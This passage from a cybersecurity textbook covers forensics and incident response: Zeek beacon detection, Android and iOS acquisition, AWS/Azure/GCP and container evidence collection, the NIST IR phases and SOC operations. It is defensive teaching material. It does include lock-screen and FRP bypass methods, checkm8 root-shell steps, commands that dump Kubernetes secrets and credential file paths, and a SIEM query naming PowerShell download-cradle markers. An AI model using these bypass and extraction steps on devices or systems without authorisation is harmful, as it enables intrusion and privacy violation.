- User-Agent: Windows NT 6.1 (Windows 7) but system is Windows 10 → fake UA
- Beacon interval: 60 seconds exactly (no jitter) → not human behavior

#### Detecting Beaconing with Zeek

```bash
# Extract beacon intervals from conn.log
zeek-cut ts id.orig_h id.resp_h proto < conn.log | grep "443" | awk '{print $1}' > timestamps.txt

# Analyze intervals with Python
python3 -c "
import sys
times = [float(line.strip()) for line in open('timestamps.txt')]
intervals = [times[i+1] - times[i] for i in range(len(times)-1)]
print(f'Count: {len(times)}')
print(f'Mean interval: {sum(intervals)/len(intervals):.2f}s')
print(f'Std dev: {(sum((i - sum(intervals)/len(intervals))**2 for i in intervals)/len(intervals))**0.5:.2f}s')
print(f'Min: {min(intervals):.2f}s, Max: {max(intervals):.2f}s')
"
# Low standard deviation = beaconing
```

#### Extracting Files with Zeek

```bash
# Zeek automatically extracts files to the files/ directory
# files.log contains the mapping

# Read files.log
zeek-cut ts fuid tx_hosts rx_hosts mime_type filename < files.log

# Reconstruct extracted files
for file in files/*; do
    # Check file type
    file "$file"
done

# Hash extracted files for threat intelligence lookups
sha256sum files/* | tee extracted_file_hashes.txt
```

### 6.4 Zeek Scripting for Custom Detection


```zeek
# custom-c2-detection.zeek
module CustomC2;

export {
    redef enum Notice::Type += {
        Periodic_HTTP_Beacon,
        DGA_Domain,
        Suspicious_UserAgent,
        Data_Exfiltration
    };
}

event http_request(c: connection, method: string, original_uri: string,
                   unescaped_uri: string, version: string)
{
    # Detect suspicious user agents
    if ( c$http?$user_agent &&
         c$http$user_agent == "Mozilla/5.0 (Windows NT 6.1; WOW64)" )
    {
        NOTICE([$note=Suspicious_UserAgent,
                $msg=fmt("Suspicious UA from %s", c$id$orig_h),
                $conn=c]);
    }
}

# Run: zeek -r capture.pcap custom-c2-detection.zeek
```

### 6.5 Network Forensics → Complexity and Performance


| Factor | Impact |
|--------|--------|
| PCAP file size | 1 GB PCAP ≈ 5-15 min processing in Wireshark |
| Packet count | 10M+ packets requires CLI tools (tshark, zeek) |
| Zeek processing | ~100 MB/min throughput on commodity hardware |
| Storage for logs | Zeek logs ≈ 5-10% of original PCAP size |
| Analysis bottleneck | Human review is the limiting factor |
# Chapter 8: Forensics & Incident Response

## 7. Mobile Forensics

**Real-World Analogy:** Mobile phones are like a person's digital diary, map, camera, and phone book all in one device that's always with them. Mobile forensics is about reading that diary: who they called (call logs), where they went (GPS), who they texted (SMS/iMessage/WhatsApp), what they photographed (media files), and what apps they used.

### 7.1 Mobile Forensics Acquisition Types


| Acquisition Type | Description | Data Retrieved | Tool | Time Required |
|-----------------|-------------|----------------|------|---------------|
| **Logical** | File system access via OS APIs | Call logs, SMS, contacts, media, app data | ADB, UFED Logical, Magnet AXIOM | 15-60 min |
| **Physical** | Bit-for-bit copy of flash memory | All data including deleted files, unallocated space | JTAG, chip-off, ISP, Cellebrite UFED Physical | 2-8 hours |
| **File System** | Full file system extraction (requires root/jailbreak) | All files including app databases | ADB root, jailbreak + tar | 30 min-2 hours |
| **Cloud** | Extraction from backup in cloud | iCloud, Google Drive, WhatsApp backup | Elcomsoft Cloud Explorer, Oxygen | 1-4 hours |
| **Manual** | Human review and photograph of device | Visual data only | Camera, video recording | 30 min-2 hours |
| **Advanced Logical** | Agent-based extraction on device | More data than logical, less than physical | Cellebrite Advanced Logical, UFED 4PC | 1-3 hours |

### 7.2 Android Forensics


#### Android Acquisition Methods

```bash
# 1. ADB (Android Debug Bridge) → logical acquisition

# Check if ADB is accessible
adb devices -l
# Output:
# List of devices attached
# 0123456789ABCDEF       device product:model

# Enable ADB on device:
# Settings → Developer Options → USB Debugging
# If Developer Options hidden: Settings → About Phone → Tap Build Number 7 times

# Pull user-installed apps
adb shell pm list packages -3 > installed_apps.txt

# Pull app APK
adb shell pm path com.whatsapp
# package:/data/app/com.whatsapp-1/base.apk
adb pull /data/app/com.whatsapp-1/base.apk whatsapp.apk

# Pull external storage
adb pull /sdcard/ evidence/sdcard/

# Pull application data (requires root)
adb root
adb shell
# → su
# → tar -cvf /data/local/tmp/data.tar /data/data/
adb pull /data/local/tmp/data.tar data.tar

# 2. Recovery mode acquisition (bypasses lock screen):
# Power off → Hold Volume Down + Power (varies by device)
# → Use ADB in recovery (some recoveries support ADB)

# 3. Android backup extraction (no root needed)
adb backup -f android_backup.ab -apk -shared -all -system
# Decrypt backup (requires password if set)
dd if=android_backup.ab bs=1 skip=24 | python -c "import zlib,sys;sys.stdout.buffer.write(zlib.decompress(sys.stdin.buffer.read()))" > backup.tar
tar -xvf backup.tar
```

#### Android Forensic Artifacts

| Artifact | Path | Forensic Value |
|----------|------|----------------|
| SMS/MMS Database | /data/data/com.android.providers.telephony/databases/mmssms.db | All text messages |
| Call Log | /data/data/com.android.providers.contacts/databases/contacts2.db | Call history, contacts |
| WhatsApp Database | /data/data/com.whatsapp/databases/msgstore.db | WhatsApp messages |
| WhatsApp Media | /sdcard/Android/media/com.whatsapp/WhatsApp/Media/ | WhatsApp media files |
| Browser History | /data/data/com.android.chrome/app_chrome/Default/History | Browsing history |
| WiFi Passwords | /data/misc/wifi/wpa_supplicant.conf | Saved WiFi credentials |
| GPS Locations | /data/data/com.google.android.gms/files/ | Google location history |
| Accounts | /data/system/accounts.db | Synced Google/email accounts |
| Installed Apps | /data/system/packages.list | All installed packages |
| Keystore | /data/misc/keystore/ | Stored cryptographic keys |

#### Android File System

| Partition | Mount Point | Contents | Forensic Interest |
|-----------|-------------|----------|-------------------|
| /boot | → | Kernel, ramdisk | Not typically analyzed |
| /system | /system | OS files, pre-installed apps | Low (read-only) |
| /data | /data | User data, app data, settings | **High** → primary target |
| /cache | /cache | Temporary data | Medium |
| /recovery | → | Recovery mode kernel | Low |
| /sdcard | /sdcard or /storage/emulated/0 | User storage | High → media, downloads |

#### Android Lock Screen Bypass

| Method | Requirements | Success Rate | Notes |
|--------|-------------|--------------|-------|
| ADB with USB debugging | USB debugging already enabled | High | Requires unlock once after reboot |
| Recovery ADB | Custom recovery (TWRP) | High | Wipes device if encryption enabled |
| Samsung FRP bypass | Samsung device | Medium | Bypasses factory reset protection |
| Cellebrite UFED | Cellebrite hardware | High | Physical extraction |
| Brute force (exhaustive) | Simple PIN/pattern | Low-Medium | Time-consuming |
| MTP (Media Transfer Protocol) | MTP enabled | Low | Only media files accessible |

### 7.3 iOS Forensics


#### iOS Acquisition Methods

```bash
# 1. iTunes Backup (logical)
# Connect iPhone to trusted computer
# iTunes → Summary → Back Up Now
# Backup location:
# Windows: %APPDATA%\Apple Computer\MobileSync\Backup\
# macOS: ~/Library/Application Support/MobileSync/Backup/

# Extract iTunes backup
# Using libimobiledevice (cross-platform)
idevicebackup2 backup --full /evidence/ios_backup/

# Using iBackupBot (Windows/Mac)
# Open the backup in iBackupBot GUI

# 2. Checkm8 bootrom exploit (iPhone 4S-8, up to iOS 14.8.1)
# Physical extraction using checkm8-based tools
./checkra1n -c
ssh root@127.0.0.1 -p 2222
# Now have root shell on device

# 3. Jailbreak extraction (iPhone 5s-X, specific iOS versions)
# Using palera1n or unc0ver
# Run jailbreak tool → install OpenSSH → SSH into device

# 4. Cellebrite UFED → physical extraction
# Use UFED hardware/software with appropriate cable

# 5. Cloud extraction → iCloud backup
# Requires Apple ID credentials or authentication token
# Using Elcomsoft Phone Breaker or Cellebrite cloud
```

#### iOS Forensic Artifacts

| Artifact | Database/File | Path in Backup |
|----------|---------------|----------------|
| SMS/iMessage | sms.db | 3d0d7e5fb2ce288813306e4d4636395e047a3d28 |
| Call History | CallHistory.storedata | 2b2... |
| Contacts | AddressBook.sqlitedb | 31... |
| Safari History | History.db | 5c... |
| Notes | notes.sqlite | 8c... |
| Photos | PhotoLibrary.apdb | (in Media folder) |
| WhatsApp | ChatStorage.sqlite | AppDomain-com.whatsapp.net/ |
| Keychain | keychain-2.db | System keychain (encrypted) |
| Location Data | cache_encryptedB.db | Solid-state drive... |
| Health Data | healthdb_secure.sqlite | AppDomain-com.apple.Health/ |
| Calendar | Calendar.sqlitedb | 2c... |
| WiFi | com.apple.wifi.plist | SystemPreferences/ |
| Voicemail | voicemail.db | 88... |
| App State | appState.sqlite | 6c6ba... |
| Geometry Cache | icons_state.plist | Springboard/ |

#### iOS Encryption Considerations

| iOS Version | Data Protection Class | Forensics Implications |
|-------------|----------------------|------------------------|
| iOS 4-7 | NSFileProtectionComplete | Most data accessible after first unlock |
| iOS 8-9 | Hardware encryption, passcode required | Very limited access without passcode |
| iOS 10-12 | Enhanced encryption, Secure Enclave | Physical extraction requires exploit |
| iOS 13+ | USB Restricted Mode | Data port disabled after 1 hour without unlock |
| iOS 14+ | Enhanced privacy features | Limited cellular/network data access |
| iOS 15+ | iCloud Private Relay, Enhanced lock screen | More data in cloud, less on device |
| iOS 16+ | Lockdown Mode | Maximum security, minimum forensic access |

### 7.4 Mobile Forensics → Key Challenges


| Challenge | Description | Mitigation |
|-----------|-------------|------------|
| Encryption | Modern devices encrypt by default | Capture immediately after device unlock |
| Lock screen | Cannot access without passcode | Use logical extraction if ADB/iTunes enabled |
| Remote wipe | Device can be wiped remotely | Faraday bag/isolation immediately |
| Auto-lock | Screen locks after timeout | Disable auto-lock before acquisition |
| App-specific encryption | Signal, Telegram have their own encryption | Data accessible only from unlocked app |
| Cloud syncing | Evidence may be overwritten by sync | Airplane mode immediately |
| Anti-forensics | Some apps detect jailbreak/root | Check for root detection bypass tools |
| Data fragmentation | Android OEMs vary widely | Research specific device model |

### 7.5 Mobile Forensics Tools Comparison


| Tool | Platform | Capabilities | Price | Best For |
|------|----------|--------------|-------|----------|
| Cellebrite UFED | Android, iOS | Physical, logical, file system, cloud | $$$$$ | Law enforcement, enterprise IR |
| Cellebrite Premium | Android, iOS | All UFED + advanced, data analytics | $$$$$ | Large-scale investigations |
| Magnet AXIOM | Android, iOS | Logical, cloud, artifact analysis | $$$$ | Multi-platform investigations |
| Oxygen Forensic Detective | Android, iOS, Cloud | Logical, cloud, social media | $$$$ | Social media investigations |
| MSAB XRY | Android, iOS, Feature | Physical, logical, advanced | $$$$$ | Law enforcement |
| Belkasoft Evidence Center | Android, iOS | Logical, cloud, artifact analysis | $$$$ | Comprehensive digital investigations |
| Elcomsoft Phone Breaker | iOS | iCloud, iTunes backup extraction | $$$ | Cloud-based iOS extraction |
| ADB (free) | Android | Logical pull | Free | Quick triage, testing |
| LiME (free) | Android (root) | Physical dumps | Free | Advanced analysis |

### 7.6 Mobile Forensics Workflow


**Numbered Steps:**
1. **Secure the device** → Faraday bag to prevent remote wipe and network communication
2. **Document status** → photograph the screen (time, notifications, battery level)
3. **Disable auto-lock** → prevent screen lock during acquisition
4. **Enable airplane mode** → prevent incoming calls/messages from overwriting data
5. **Identify acquisition method** → check device model, OS version, lock status, USB debugging
6. **Perform acquisition** → logical, physical, or cloud based on capability and need
7. **Verify integrity** → SHA-256 of acquired image/backup
8. **Analyze** → extract SMS, call logs, contacts, apps, GPS, media, browser history
9. **Document** → chain of custody, acquisition method, findings

---

## 8. Cloud Forensics

**Real-World Analogy:** Traditional forensics is investigating a house after a burglary. Cloud forensics is investigating a house that exists in multiple dimensions simultaneously (compute in one, storage in another, database in a third), may vanish at any moment (auto-scaling terminates instances), has no physical doors you can lock, and where the neighbors (other tenants) control the building's security cameras.

### 8.1 Cloud Forensics Challenges


| Challenge | Impact | Mitigation |
|-----------|--------|------------|
| **Ephemeral evidence** | Cloud instances/containers auto-terminate | Enable detailed logging before incidents |
| **Multi-tenancy** | Evidence may co-reside with other tenants | Approved acquisition channels only |
| **Jurisdiction** | Data centers in multiple legal jurisdictions | Know data residency requirements |
| **Lack of physical access** | Cannot do chip-off or JTAG | Cloud API forensics only |
| **Shared responsibility** | Provider manages some evidence | Understand provider's forensic capabilities |
| **Volume of data** | Cloud scale = petabytes of logs | Automated analysis pipelines |
| **API rate limits** | Evidence export may be throttled | Plan acquisition sequencing |
| **Encryption** | KMS/HSM managed by provider | Capture from memory or logs before key rotation |

### 8.2 AWS Forensics


#### Evidence Collection

```bash
# 1. AWS CloudTrail → API activity logs
aws cloudtrail lookup-events \
    --lookup-attributes AttributeKey=ResourceName,AttributeValue=i-0123456789abcdef0 \
    --start-time 2024-06-15T14:00:00Z \
    --end-time 2024-06-15T16:00:00Z \
    --output json > cloudtrail_events.json

# 2. EC2 Instance forensics → create forensic snapshot
aws ec2 create-snapshot \
    --volume-id vol-0123456789abcdef0 \
    --description "Forensic snapshot - Case IR-2024-001" \
    --tag-specifications 'ResourceType=snapshot,Tags=[{Key=Case,Value=IR-2024-001}]'

# Create AMI from instance (captures instance state)
aws ec2 create-image \
    --instance-id i-0123456789abcdef0 \
    --name "forensic-image-2024-06-15" \
    --description "Forensic AMI - Case IR-2024-001" \
    --no-reboot

# 3. Launch forensic analysis instance from snapshot
aws ec2 run-instances \
    --image-id ami-0abcdef1234567890 \
    --block-device-mappings DeviceName=/dev/sdf,Ebs={SnapshotId=snap-0123456789abcdef0} \
    --instance-type m5.2xlarge \
    --subnet-id subnet-0123456789abcdef0

# 4. S3 forensics → check bucket access logs
aws s3api get-bucket-logging --bucket target-bucket-name

# Enable access logging (if not already)
aws s3api put-bucket-logging \
    --bucket target-bucket-name \
    --bucket-logging-status '{"LoggingEnabled":{"TargetBucket":"forensic-logs-bucket","TargetPrefix":"s3-access-logs/"}}'

# 5. VPC Flow Logs → network traffic
# Check if flow logs are enabled
aws ec2 describe-flow-logs \
    --filter "Name=resource-id,Values=vpc-0123456789abcdef0"

# Export flow logs to S3
aws s3 cp s3://flow-log-bucket/flow-logs/ /evidence/aws-flow-logs/ --recursive

# 6. GuardDuty findings
aws guardduty list-findings --detector-id 0123456789abcdef0
aws guardduty get-findings \
    --detector-id 0123456789abcdef0 \
    --finding-ids file://findings-list.json

# 7. IAM credential report (user access review)
aws iam generate-credential-report
aws iam get-credential-report --output text --query CredentialReportContent | base64 -d > credential-report.csv

# 8. Lambda function code retrieval
aws lambda get-function --function-name suspicious-function --output json > function-config.json
aws lambda get-function --function-name suspicious-function --query 'Code.Location' --output text > function-url.txt
# Download the function code from the URL in function-url.txt
```

#### AWS Forensic Artifacts

| Service | Evidence Source | Forensic Value |
|---------|----------------|----------------|
| CloudTrail | Management API events | Who did what, when, from where (source IP) |
| CloudWatch Logs | Application logs, VPC Flow Logs | System-level activity |
| S3 Access Logs | Object-level access | Data exfiltration detection |
| Config | Resource configuration history | Infrastructure changes |
| GuardDuty | Threat detection findings | Known malicious activity detection |
| VPC Flow Logs | Network metadata | Lateral movement, data exfiltration |
| EC2 Snapshots | Disk state at point-in-time | Full disk forensics |
| Inspector | Vulnerability assessment | Known vulnerabilities in instances |
| Trusted Advisor | Best practice checks | Security configuration gaps |
| Secrets Manager | Access logs for secrets | Credential access detection |

### 8.3 Azure Forensics


```bash
# 1. Azure Activity Log
# Portal: Monitor → Activity Log → Export to Event Hub or Log Analytics
# CLI:
az monitor activity-log list \
    --resource-id /subscriptions/SUBSCRIPTION_ID/resourceGroups/RG_NAME \
    --start-time 2024-06-15T14:00:00Z \
    --end-time 2024-06-15T16:00:00Z \
    --output json > azure_activity_log.json

# 2. Virtual Machine disk snapshot
az snapshot create \
    --resource-group RG_NAME \
    --name forensic-snapshot-vm01 \
    --source /subscriptions/SUBSCRIPTION_ID/resourceGroups/RG_NAME/providers/Microsoft.Compute/disks/vm01_OsDisk_1

# Create disk from snapshot for analysis
az disk create \
    --resource-group RG_NAME \
    --name forensic-disk-vm01 \
    --source forensic-snapshot-vm01

# Attach to analysis VM
az vm disk attach \
    --vm-name analysis-vm \
    --resource-group RG_NAME \
    --name forensic-disk-vm01

# 3. Azure AD sign-in logs (Microsoft Graph)
# Requires Azure AD Premium P1/P2
# Portal: Azure AD → Sign-in logs → Export
# PowerShell:
Connect-AzureAD
Get-AzureADAuditSignInLogs -Filter "createdDateTime ge 2024-06-15" -Top 1000 | Export-Csv signin_logs.csv

# 4. NSG Flow Logs
# Check if enabled on Network Security Groups
az network watcher flow-log list --location eastus

# 5. Key Vault audit logs
az monitor diagnostic-settings list --resource /subscriptions/SUBSCRIPTION_ID/resourceGroups/RG_NAME/providers/Microsoft.KeyVault/vaults/VAULT_NAME
```

### 8.4 GCP Forensics


```bash
# 1. Cloud Audit Logs
# Using gcloud CLI
gcloud logging read "resource.type=gce_instance AND timestamp>=\"2024-06-15T14:00:00Z\"" \
    --project PROJECT_ID \
    --limit 1000 \
    --format json > gcp_audit_logs.json

# 2. Compute Engine disk snapshot
gcloud compute disks snapshot DISK_NAME \
    --zone us-central1-a \
    --snapshot-names forensic-snapshot-gce-01 \
    --description "Forensic snapshot - Case IR-2024-001"

# Create disk from snapshot for analysis
gcloud compute disks create forensic-disk-gce-01 \
    --source-snapshot forensic-snapshot-gce-01 \
    --zone us-central1-a

# Attach to analysis instance
gcloud compute instances attach-disk analysis-instance \
    --disk forensic-disk-gce-01 \
    --zone us-central1-a

# 3. VPC Flow Logs
gcloud compute networks subnets describe SUBNET_NAME \
    --region us-central1 \
    --format "json(enableFlowLogs,logConfig)"

# Export flow logs from Stackdriver
gcloud logging read "resource.type=gce_subnetwork AND jsonPayload.reporter=DEST" \
    --project PROJECT_ID \
    --limit 10000 \
    --format json > gcp_flow_logs.json

# 4. Cloud Storage audit logs (Data Access)
# Check bucket's IAM policy
gsutil iam get gs://BUCKET_NAME

# Access logs (enable via bucket logging)
gsutil logging set on -b forensic-logs-bucket -o access-log gs://TARGET_BUCKET
```

### 8.5 Cloud Forensic Workflow


**Numbered Steps:**
1. **Identify scope** → which services, regions, accounts are involved
2. **Preserve logs** → export CloudTrail/Activity/Audit Logs immediately (retention may vary)
3. **Snapshot storage** → create EBS snapshots, disk images, and storage exports
4. **Capture network data** → enable VPC flow logs, export NSG logs, capture mirror traffic
5. **Preserve IAM state** → export IAM policies, roles, users, service accounts
6. **Capture memory (if possible)** → use SSM Run Command or custom agents for RAM acquisition
7. **Isolate compromised resources** → apply security groups, detach IAM policies, disable keys
8. **Analyze in isolated environment** → launch analysis instances in separate account/VPC

### 8.6 Container Forensics (Docker/Kubernetes)


```bash
# Docker container forensics
# Save container filesystem
docker export CONTAINER_ID > container_fs.tar

# Commit container to image (preserves state)
docker commit CONTAINER_ID forensic-image:tag

# Save image as tar
docker save forensic-image:tag -o forensic-image.tar

# View container logs
docker logs CONTAINER_ID > container_logs.txt

# Analyze container layers
docker history IMAGE_NAME

# Kubernetes forensics
# Get pod logs
kubectl logs POD_NAME -n NAMESPACE --since=2h > pod_logs.txt

# Describe pod (events, status)
kubectl describe pod POD_NAME -n NAMESPACE

# Get pod YAML definition
kubectl get pod POD_NAME -n NAMESPACE -o yaml

# Get cluster events
kubectl get events -n NAMESPACE --sort-by=.lastTimestamp

# Extract secrets (requires permissions)
kubectl get secrets -n NAMESPACE -o yaml

# Export etcd data (cluster database)
# Requires SSH to etcd pod/VM
ETCDCTL_API=3 etcdctl --endpoints=https://127.0.0.1:2379 \
  --cacert=/etc/kubernetes/pki/etcd/ca.crt \
  --cert=/etc/kubernetes/pki/etcd/server.crt \
  --key=/etc/kubernetes/pki/etcd/server.key \
  snapshot save etcd-snapshot.db
```

---

## 9. Incident Response Lifecycle (NIST SP 800-61)

**Real-World Analogy:** A hospital emergency room follows a structured protocol: triage (preparation), diagnose (detection), stabilize (containment), treat (eradication), discharge (recovery), and review (post-incident). IR is the ER for your organization's digital health → and following the protocol prevents panic-induced mistakes.

### 9.1 The Four Phases


#### Phase 1: Preparation

**Goal:** Establish the tools, team, and processes before an incident occurs. This phase determines whether your response will be effective or chaotic.

**Key Activities:**

| Activity | Description | Success Criteria |
|----------|-------------|-----------------|
| CSIRT Formation | Identify team members, roles, backup personnel | Defined RACI matrix |
| IR Plan Creation | Document procedures for incident types | Approved document, reviewed annually |
| Tool Deployment | SIEM, EDR, logging, forensics workstations | Tools installed and tested |
| Playbook Development | Step-by-step guides for common scenarios | Tested in tabletop exercises |
| Communication Plan | Stakeholder notification matrix, legal contacts | Contact list tested quarterly |
| Training | Team exercises, certifications | All members pass annual exercise |
| Threat Intelligence | Feeds, sharing partnerships | Integrated with SIEM |
| Legal Counsel Engagement | Pre-approved counsel for incident matters | Retainer in place |

**Tabletop Exercise Scenario:**
```
Scenario: Ransomware
Team: SOC analyst, IR lead, Legal, PR, IT, Exec sponsor
Flow:
1. SOC receives alert: file encryption detected on 5 workstations
2. SOC analyst follows playbook: isolate, screenshot, escalate
3. IR lead: determine scope, activate CSIRT, notify legal
4. Legal: mandatory breach notification assessment
5. IT: begin system restoration from clean backups
6. PR: prepare customer notification statement
7. Exec: approve ransom/no-ransom decision
```

**Tool Commands → Preparation:**
```bash
# Configure centralized logging (syslog-ng)
cat /etc/syslog-ng/conf.d/remote.conf
# source s_net { tcp(ip(0.0.0.0) port(514)); };
# destination d_files { file("/var/log/remote/${HOST}/${FACILITY}.log"); };
# log { source(s_net); destination(d_files); };

# Deploy Sysmon on Windows endpoints (sysmon)
sysmon64.exe -accepteula -i sysmon-config.xml

# Deploy osquery
osqueryi --json "SELECT * FROM os_version;"
osqueryi --json "SELECT * FROM processes;"
```

#### Phase 2: Detection & Analysis

**Goal:** Identify that an incident has occurred and gather sufficient information to understand its scope and severity.

**Detection Methods:**

| Method | Description | Typical Alerts |
|--------|-------------|----------------|
| SIEM Correlation | Rule-based alerting on aggregated logs | Multiple failed logins + successful login from new IP |
| EDR Detection | Endpoint behavioral analysis | Process injection detected, ransomware behavior |
| Network IDS/IPS | Signature and anomaly detection | C2 beacon detected, SQL injection attempt |
| User Report | End-user reports suspicious activity | "My files are being renamed!" |
| Threat Intelligence | IOC matching | Known bad hash executed on endpoint |
| Anomaly Detection | ML-based baseline deviation | Unusual data transfer volume |
| Honeypot/Honeytoken | Deception technology | Honeytoken file accessed |
| External Notification | Law enforcement, partner, media | "Your data is on the dark web" |

**Severity Classification:**

| Severity | Description | Response Time | Examples |
|----------|-------------|---------------|----------|
| **Critical (P1)** | Significant data loss, systems down, PII exposed | <15 min | Ransomware, data breach, APT |
| **High (P2)** | Contained but active threat, limited data exposure | <1 hour | Targeted phish successful, malware on server |
| **Medium (P3)** | Potential compromise, no confirmed data loss | <4 hours | Phishing campaign detected, scanning activity |
| **Low (P4)** | Minor violation, no evidence of compromise | <24 hours | Policy violation, attempted access |

**Detection Commands:**
```bash
# Splunk: Search for anomalous process creation
index=windows EventCode=4688
| search New_Process_Name="*powershell*" OR "*wscript*" OR "*cmd*"
| stats count by User, New_Process_Name, ComputerName
| where count > 5

# Elastic/SIEM: Suspicious PowerShell detection
event.code: 4688 AND process.name: powershell.exe
AND winlog.event_data.CommandLine: *-enc* OR *-ExecutionPolicy* OR *DownloadString*

# Windows Event Log: Event ID 4688 (process creation)
wevtutil qe Security /q:"Event[System[EventID=4688]]" /f:text /c:1000

# Linux: Check for suspicious cron jobs
crontab -l
ls -la /etc/cron.hourly/ /etc/cron.daily/ /etc/cron.weekly/
```

#### Phase 3: Containment, Eradication & Recovery

**Real-World Analogy:** In a ship with a hull breach, containment is closing the watertight doors immediately (stop the flooding). Eradication is pumping out the water and patching the hole. Recovery is returning to normal sailing speed.

**Containment Strategies:**

| Strategy | Description | When to Use | Risk |
|----------|-------------|-------------|------|
| Network Isolation | Disconnect from network | Active malware spreading | May alert attacker |
| System Shutdown | Power off system | Irreversible damage imminent | Loses memory evidence |
| Account Disable | Disable compromised accounts | Credential theft verified | May disrupt legitimate users |
| IP Blocking | Block C2 IPs at firewall | Active C2 communication | May block legitimate services |
| DNS Sinkhole | Redirect malicious domains | DNS-based C2 detection | May break DNS for some services |
| Patch Deployment | Apply security patches | Vulnerability-based attack | May cause system instability |
| Credential Reset | Force password reset | Credential compromise | User disruption |

**Containment Commands:**
```bash
# Block IP at firewall (iptables)
sudo iptables -A OUTPUT -d 185.234.72.18 -j DROP
sudo iptables -A INPUT -s 185.234.72.18 -j DROP

# Windows Firewall block
netsh advfirewall firewall add rule name="Block C2" dir=out remoteip=185.234.72.18 action=block

# Kill malicious process (Windows)
taskkill /PID 3456 /F

# Kill malicious process (Linux)
sudo kill -9 3456

# Disable compromised account
# Windows AD:
net user jdoe /ACTIVE:NO

# Linux:
sudo passwd -l jdoe

# Azure:
Disable-AzADUser -UserPrincipalName jdoe@company.com

# Create network ACL in AWS
aws ec2 create-network-acl-entry \
    --network-acl-id acl-0123456789abcdef0 \
    --ingress \
    --rule-number 100 \
    --protocol tcp \
    --port-range From=443,To=443 \
    --cidr-block 185.234.72.18/32 \
    --rule-action deny
```

**Eradication Steps:**
1. Remove malware from affected systems (antivirus scan, reimage)
2. Patch exploited vulnerabilities
3. Reset compromised credentials (all accounts, not just the known compromised)
4. Revoke and rotate API keys and certificates
5. Remove persistence mechanisms (registry Run keys, scheduled tasks, cron jobs)
6. Rebuild systems from known-clean images when possible
7. Verify eradication with full system scan

**Recovery Steps:**
1. Restore systems from clean backups
2. Validate restored system functionality
3. Monitor systems for signs of re-infection
4. Gradually return to normal operations
5. Communicate recovery status to stakeholders
6. Document lessons learned in real time

#### Phase 4: Post-Incident Activity

**Goal:** Learn from the incident to prevent recurrence and improve future response.

**Lessons Learned Meeting Agenda:**
1. What happened (timeline review)
2. What went well (successes)
3. What went wrong (failures)
4. Root cause analysis
5. Improvement items with owners and deadlines
6. Update IR plan, playbooks, and detection rules
7. Legal and compliance follow-up

**Post-Incident Report Template:**
```markdown
# Post-Incident Report: IR-2024-001

## Executive Summary
[One paragraph for non-technical audience]

## Incident Details
- Date/Time Discovered:
- Date/Time Occurred:
- Incident Type:
- Severity:
- Affected Systems:
- Data Affected:

## Timeline
| Time (UTC) | Event | Source |
|------------|-------|--------|
| 14:30:00 | User opened phishing email | Email logs |
| 14:30:05 | Macro executed | Event ID 4688 |
| 14:30:10 | PowerShell download cradle | Event ID 4688 + network log |
| 14:30:15 | C2 beacon established | Zeek conn.log |
| 14:45:00 | Lateral movement to DB server | Event ID 4624 |
| 15:10:00 | Data exfiltration | VPC Flow Logs |
| 15:30:00 | Alert generated by SIEM | SIEM alert log |
| 15:35:00 | SOC analyst triage begins | IR ticket |
| 16:00:00 | Containment initiated | Change request |
| 18:00:00 | Eradication complete | Incident log |
| 20:00:00 | Service restored | IT ticket |

## Indicators of Compromise
- IP: 185.234.72.18 (C2)
- Domain: abcdefgh123456.xyz
- File hash (SHA-256): a8f5f167f44f4964e6c998d67f3b3b9e...
- Registry key: HKLM\Software\Microsoft\Windows\CurrentVersion\Run\UpdateService
- YARA rule: [see attached]

## Root Cause
[Detailed analysis of how the incident occurred]

## Lessons Learned
| What Went Well | What Could Improve | Action Items |
|----------------|-------------------|--------------|
| Rapid detection by SIEM | Longer user security awareness training | 1. Mandatory phishing training monthly |
| Effective containment | Faster log source ingestion | 2. Optimize log pipeline |
| Clear communication | Develop playbook for this scenario | 3. Write ransomware playbook |

## Remediation Plan
| # | Action | Owner | Due Date |
|---|--------|-------|----------|
| 1 | Deploy email filtering DMARC/DKIM/DMARC | IT Security | 2024-07-01 |
| 2 | Implement AppLocker | IT Security | 2024-07-15 |
| 3 | Phase out PowerShell v2 | IT Operations | 2024-08-01 |
```

### 9.2 SOC Operations


**The SOC (Security Operations Center)** is the central function that monitors, detects, analyzes, and responds to security incidents.

#### SOC Tier Model

| Tier | Role | Responsibilities | Skills | Typical Alerts |
|------|------|------------------|--------|----------------|
| **Tier 1** | Triage Analyst | Alert review, initial triage, categorization, escalation | Foundational security knowledge, SIEM querying | P3/P4 alerts, known IOCs |
| **Tier 2** | Incident Responder | Deep investigation, containment, evidence collection | Forensic analysis, malware analysis, network analysis | P2 alerts, confirmed incidents |
| **Tier 3** | Expert Analyst | Advanced analysis, reverse engineering, threat hunting | Reverse engineering, exploit analysis, custom tool development | P1 incidents, APT, zero-days |
| **Tier 4** | SOC Manager | Operations management, reporting, strategy | Management, compliance, communication | Escalation oversight |

#### SOC Metrics

| Metric | Target | Formula |
|--------|--------|---------|
| Mean Time to Detect (MTTD) | <1 hour for critical | Sum(Time to Detect) / Number of Incidents |
| Mean Time to Respond (MTTR) | <15 min for critical | Sum(Time to Respond) / Number of Incidents |
| Mean Time to Contain (MTTC) | <1 hour for active threats | Sum(Time to Contain) / Number of Incidents |
| Alert Volume | Varies | Total alerts per day |
| False Positive Rate | <10% | False Positives / Total Alerts × 100 |
| Escalation Rate | 20-30% | Escalated / Total Triaged × 100 |
| Time to Resolution | <24 hours for P3 | Sum(Resolved Time) / Number of Incidents |

### 9.3 SIEM vs SOAR vs XDR


| Capability | SIEM | SOAR | XDR |
|------------|------|------|-----|
| **Full Name** | Security Information and Event Management | Security Orchestration, Automation and Response | Extended Detection and Response |
| **Primary Function** | Log aggregation, correlation, alerting | Automated response workflows, orchestration | Integrated endpoint + network + cloud detection |
| **Data Source** | Logs (any source) | SIEM alerts, ticketing, threat intel | Endpoint agents, network sensors, cloud APIs |
| **Analysis** | Rule-based, correlation, UEBA | Playbook-driven decision trees | ML-based behavioral, cross-vector correlation |
| **Response** | Manual (alerts analyst) | Automated (playbook execution) | Automated (isolation, containment) |
| **Coverage** | Broad → any log source | Operational → process automation | Deep → endpoint + network + cloud |
| **Examples** | Splunk ES, Elastic Security, QRadar, ArcSight, Sentinel | Splunk SOAR, Palo Alto XSOAR, Sumo Logic SOAR | CrowdStrike Falcon, SentinelOne, Microsoft 365 Defender, Trend Vision One |
| **Best For** | Centralized visibility and compliance | Repeating response tasks | Comprehensive threat detection and auto-response |
| **Limitation** | High noise, manual response required | Requires playbook development | Vendor-specific, less flexibility |

**When to Use Which:**

| Scenario | Use |
|----------|-----|
| I need to pass a compliance audit (PCI DSS, SOC 2) | SIEM |
| My analysts spend 80% of time on repetitive tasks | SOAR |
| I need endpoint protection with built-in detection | XDR |
